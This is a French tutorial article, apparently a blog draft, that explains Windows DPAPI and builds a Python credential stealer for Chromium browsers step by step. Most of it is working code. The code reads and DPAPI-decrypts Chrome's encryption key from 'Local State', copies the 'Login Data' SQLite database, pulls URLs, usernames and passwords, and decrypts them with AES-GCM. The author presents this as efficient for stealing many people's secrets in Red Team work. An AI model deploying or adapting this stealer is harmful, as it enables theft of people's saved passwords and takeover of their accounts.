 ```yaml
---
title: "Data Protection API & Browser"
description: "Secrets are NOT hiddens."
createdAt: 04-29-2025
author: "Fastiraz"
draft: true
tags:
  - web
  - dev
---
```



## `TL;DR`
Nous utiliserons la DPAPI pour déchiffrer les secrets des navigateurs basés sur Chromium sur les systèmes Windows. Vous pourrez retrouver un script un peu plus peaufiné et écrit en Rust [ici](https://github.com/Fastiraz/chromium-based-browsers-secrets-dump).

## Qu'est-ce que la DPAPI ?
La DPAPI (Data Protection API) est un mécanisme de sécurité utilisé dans les systèmes
Windows pour la gestion des secrets. Elle permet la gestion et la protection des informations sensibles telles que les identifiants d'utilisateur, les mots de passe ou les clés de chiffrement.

## Fonctionnement de la DPAPI
Les deux fonctions principalement utilisées sont :

- `CryptProtectData()`:
	Permet aux applications de Windows de sécuriser des informations comme des mots de passe, des clés de chiffrement, ou d'autres données privées.
- `CryptUnprotectdData()`:
	Permet de déchiffrer des données précédemment protégées par `CryptProtectData()`.

## Un blob, c'est quoi ?
Les deux fonctions précédentes prennent en paramètre des data blob. Un Data Blob sous Windows est un type de champ de données qui permet de stocker des quantités massives de données non structurées de façon optimisée.

## Pourquoi la DPAPI ?
La DPAPI permet de chiffrer les secrets des navigateurs basés sur Chromium et sur les systèmes Windows. Aujourd'hui, la plupart des navigateurs sont basés sur Chromium. Google Chrome, Opera, Brave (le GOAT), Microsoft Edge, Vivaldi et plein d'autres... Les navigateurs Chromium et les systèmes Windows étant les plus répandus, développer un stealer les ciblant permettrait de voler les secrets d'un grand nombre de personnes, ce qui serait particulièrement efficace pour les missions Red Team.

## Le Stealer
Pour démontrer l'utilisation de la DPAPI pour les secrets des navigateurs Chromium, nous allons développer ensemble un stealer en python.
Voici les quatre principales étapes du script :

1. **Récupérer la clé** : Extraire la clé de chiffrement à partir du fichier `Local State` du navigateur au format JSON. Cette clé est utilisée pour déchiffrer les mots de passe stockés. C'est à ce moment que nous utiliserons la DPAPI, pour déchiffrer la clé et l'utiliser.
2. **Accéder à la base de données SQLite** : Localiser et copier la base de données `Login Data` qui contient les secrets chiffrés.
3. **Extraire le texte chiffré** : Pour chaque entrée dans la base de données, extraire la chaîne de caractères chiffrée qui contient le mot de passe.
4. **Déchiffrer le mot de passe** : Utiliser la clé déchiffrée et l'algorithme AES pour déchiffrer le mot de passe.

### La clé
Les clés étant chiffrées en utilisant un algorithme de chiffrement symétrique, AES, nous allons développer une fonction qui permet de récupérer cette clé pour déchiffrer les secrets. La clé est stockée en base64 dans l'objet `os_crypt` et sous la clé `encrypted_key`. La clé, une fois décodée, possède un suffixe (`DPAPI`) qu'il faut retirer.

```python
CHROME_PATH_LOCAL_STATE = os.path.normpath(r"%s\AppData\Local\Google\Chrome\User Data\Local State" % (os.environ['USERPROFILE']))

def get_secret_key():
    try:
        with open(CHROME_PATH_LOCAL_STATE, "r", encoding='utf-8') as f:
            local_state = f.read()
            local_state = json.loads(local_state)
        secret_key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])
        secret_key = secret_key[5:]
        secret_key = win32crypt.CryptUnprotectData(secret_key, None, None, None, 0)[1]
        return secret_key
    except Exception as e:
        print("%s" % str(e))
        print("[ERR] Chrome secretkey cannot be found")
        return None
```

### Extraction des secrets de la base de données SQLite
La prochaine étape est de se connecter à la base de données SQLite et de récupérer les informations souhaitées. La base de données est le fichier `Login Data` que nous copierons dans le fichier `Loginvault.db`.
Pour récupérer les secrets souhaités nous utiliserons la requête suivante:
`SELECT action_url, username_value, password_value FROM logins`

```python
CHROME_PATH = os.path.normpath(r"%s\AppData\Local\Google\Chrome\User Data"%(os.environ['USERPROFILE']))

def get_db_connection(chrome_path_login_db):
    try:
        shutil.copy2(chrome_path_login_db, "Loginvault.db") 
        return sqlite3.connect("Loginvault.db")
    except Exception as e:
        print("%s"%str(e))
        print("[ERR] Chrome database cannot be found")
        return None

if(secret_key and conn):
	cursor = conn.cursor()
	cursor.execute("SELECT action_url, username_value, password_value FROM logins")
	for index,login in enumerate(cursor.fetchall()):
		url = login[0]
		username = login[1]
		ciphertext = login[2]
		decrypted_password = decrypt_password(ciphertext, secret_key)
```

### Déchiffrer les secrets
Une fois le mot de passe chiffré récupéré, nous allons le déchiffrer en utilisant l'algorithme AES. Pour ça, nous utiliserons la fonction `decrypt_password` prenant en paramètre le mot de passe chiffré (`ciphertext`) et la clé (`secret_key`) nécessaire pour le déchiffrement. On commence par extraire le vecteur d'initialisation (`initialisation_vector`) et le mot de passe chiffré (`encrypted_password`) à partir du texte chiffré. Le vecteur d'initialisation est obligatoire pour le mode GCM. La fonction `generate_cipher` avec la clé et le vecteur d'initialisation en paramètre, permet de créer un nouvel objet de chiffrement AES configuré en mode GCM. Cet objet est utilisé par la fonction `decrypt_payload` pour déchiffrer le mot de passe.

```python
def decrypt_payload(cipher, payload):
    return cipher.decrypt(payload)

def generate_cipher(aes_key, iv):
    return AES.new(aes_key, AES.MODE_GCM, iv)

def decrypt_password(ciphertext, secret_key) -> str:
    try:
        initialisation_vector = ciphertext[3:15]
        encrypted_password = ciphertext[15:-16]
        cipher = generate_cipher(secret_key, initialisation_vector)
        decrypted_pass = decrypt_payload(cipher, encrypted_password)
        decrypted_pass = decrypted_pass.decode()  
        return decrypted_pass
    except Exception as e:
        print("%s"%str(e))
        print("[ERR] Unable to decrypt, Chrome version <80 not supported. Please check.")
        return ""
```
